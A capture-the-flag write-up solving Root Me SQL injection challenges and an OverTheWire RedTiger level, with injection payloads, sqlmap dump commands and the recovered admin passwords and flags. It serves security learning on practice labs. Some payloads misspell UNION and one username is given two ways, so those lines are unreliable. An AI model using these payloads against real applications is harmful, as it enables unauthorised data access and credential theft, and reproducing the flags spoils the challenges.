# [Web Application Security Testing](../README.md) -> __Root Me (SQL injection: Authentication, String, Numeric). OverTheWire - RedTiger__

- [Web Application Security Testing -\> __Root Me (SQL injection: Authentication, String, Numeric). OverTheWire - RedTiger__](#web-application-security-testing---root-me-sql-injection-authentication-string-numeric-overthewire---redtiger)
  - [__Root Me (SQL injection - Authentication)__](#root-me-sql-injection---authentication)
  - [__Root Me (SQL injection - String)__](#root-me-sql-injection---string)
  - [__Root Me (SQL injection - Numeric)__](#root-me-sql-injection---numeric)
  - [__redtiger.labs.overthewire.org__](#redtigerlabsoverthewireorg)

## __Root Me (SQL injection - Authentication)__


Solution:

1. Start the challenge

   

2. Enter *Login:* `' OR 1=1 --` and *Password:* `q` to check for the SQLi vulnerability.

   

3. Press the `[connect]` button.

   

   As we can see, the authentication mechanism has been bypassed, as it looks like the following sql query is being used:

   ```sql
   SELECT username,password FROM users WHERE username='.$login.' AND passwd='.$password.'
   ```

   When we use `' OR 1=1 --` the password part of the request is ignored.

   ```sql
   SELECT username,password FROM users WHERE username='' OR 1=1 --' AND password='q'
   ```

   > __NOTE:__
   >
   > This query should have returned us all the records, but there are no more fields to display. We can apply a filter like "*WHERE*" to get the admin password, but we don't know the table name.

4. To determine the type of DBMS used here, an error must be made, and the error message will show it for us.

   

5. To get information about the structure of a SQLite3 database, enter the following command:

   ```sql
   ' AND 0 UNOIN SELECT name,null FROM sqlite_master WHERE type='table' --
   ```

   

   Now we know the name of the table and fields.

6. To obtain the administrator password, enter the following line .

   ```sql
   ' AND 0 UNOIN SELECT password,null FROM users WHERE username='admin' --
   ```

   

   We received the administrator password "__`t0_W34k!$`__".

7. Enter the username: __`admin`__ and password: __`t0_W34k!$`__.

   

8. The password "__`t0_W34k!$`__" is "*Flag*".

## __Root Me (SQL injection - String)__



Solution:

1. Start the challenge.
2. Go to the Search tab.

   

3. Enter `' OR 1=1 --` to test the sql injection capability and get all the table records.
4. Click the `[chercher]` button.

   

5. To determine the number of table fields, enter the following command:

   ```sql
   ' AND 0 UNOIN SELECT null,null --
   ```

   > __NOTE__ Once we receive the error message, we can determine that the SQLite3 DBMS is being used.

   

   This table has 2 fields.

6. To get information about the database structure, enter the following command:

   ```sql
   ' AND 0 UNOIN SELECT null,sql FROM sqlite_master --
   ```

   

7. To obtain the credentials, enter the following command:

   ```sql
   ' AND 0 UNOIN SELECT username,password FROM users --
   ```

   

   We found the administrator credentials.

8. Go to the "*Login*" tab.
9. Enter the username: __`admin`__ and password: __`c4K04dtIaJsuWdi`__.

   

10. Click the [connect] button.

    

11. The password "__`c4K04dtIaJsuWdi`__" is "*Flag*".

## __Root Me (SQL injection - Numeric)__


Solution:

1. Start the challenge.

   

   Here we see 3 links to news. The news must be posted in the database. Open any news to find out where we can carry out an attack using sql injection.

2. Open any news to find out where we can carry out an attack using sql injection.

   

   > __NOTE:__
   >
   > Each news consists of at least 3 fields, since one of them is the identifier, the second is the title and the third is the description.

3. In the address bar we see the id parameter. To make sure you can perform a SQLi attack, add the `OR 1=1 --` code at the end.

   

4. The DBMS is __SQLite3__, we can get the database structure. To do this, enter:

   ```sql
   UNION SELECT null,sql,null FROM sqlite_master --
   ```

   

   Here are 2 tables. We are interested in the `users` table.

5. To obtain the administrator password, enter the following:

   ```sql
   UNION SELECT null,username,password FROM users --
   ```

   

6. Go to the "*login*" tab.
7. Enter the username: __`admin`__ and password: __`aTlkJYLjcbLmue3`__.

   

8. The password "__`aTlkJYLjcbLmue3`__" is "*Flag*".

   

<!--
## __Root Me (SQL injection - Blind)__

## __sql.training.hackerdom.ru__
-->

## __redtiger.labs.overthewire.org__



Solution:

1. Run the task

   

   > __NOTE:__
   >
   > I checked the username and password fields for possible sql injection, but found nothing. In addition, here we see a link "*Category: 1*", when clicked on it, the message "__*This hackit is cool :)*__" appeared. This is a hint. Let's check it out..

2. Press the key combination `[Ctrl]`+`[Alt]`+`[T]` to launch the terminal.
3. Enter the following command to get the database names.

   ```sh
   sudo sqlmap -v -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" -p cat --dbs
   ```

   

   > __Here:__
   >
   > - `-v` - verbosity.
   > - `-u` - target URL.
   > - `-p` - parameter(*s*) to check.
   > - `-dbs` - display a list of DBMS databases.
   >
   > __IMPORTANT:__
   >
   > In some cases, such as when we try to use headers in SQLMap with GET requests, we may run into problems identifying where SQL injection is possible. The presence of the following headers will cause problems with SQLMap: `--cookie=`, `--data`, `--method`, `--user-agent=`, `--referer=`.

4. Press `[Enter]`.

   

   As a result, we only got the name of one database called `hackit`.

5. Enter the following command to get the table names of the `hackit` database.

   ```sh
   sudo sqlmap -v -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" -p cat -D hackit --tables
   ```

   

   > __Here:__
   >
   > - `-D` - DBMS database for enumeration.
   > - `--tables` - display a list of DBMS database tables.

6. Press `[Enter]`.

   

   A table called `level1_users` was discovered.

7. To get the list of fields use the following command.

   ```sh
   sudo sqlmap -v -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" -p cat -D hackit -T level1_users --columns
   ```

   

   > __Here:__
   >
   > - `-T` - DBMS database table(*s*) to enumerate.
   > - `--columns` - list the columns of the DBMS database table.

8. Press `[Enter]`.

   

   Fields called `id`, `password` and `username` were discovered.

9. To get the value of this field, enter the following command.

   ```sh
   sudo sqlmap -v -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" -p cat -D hackit -T level1_users -C id,username,password --dump
   ```

   

   >__Here:__
   >
   > - `-C` - column(*s*) of the DBMS table to be enumerated.
   > - `--dump` - dump DBMS database table records.

10. Press `[Enter]`.

    

    Only one `Hornox` user was found and his password was `thatwaseasy`.

11. Login using `Hornoxe` and `thatwaseasy`.
12. Collect the "*Flag*".

    
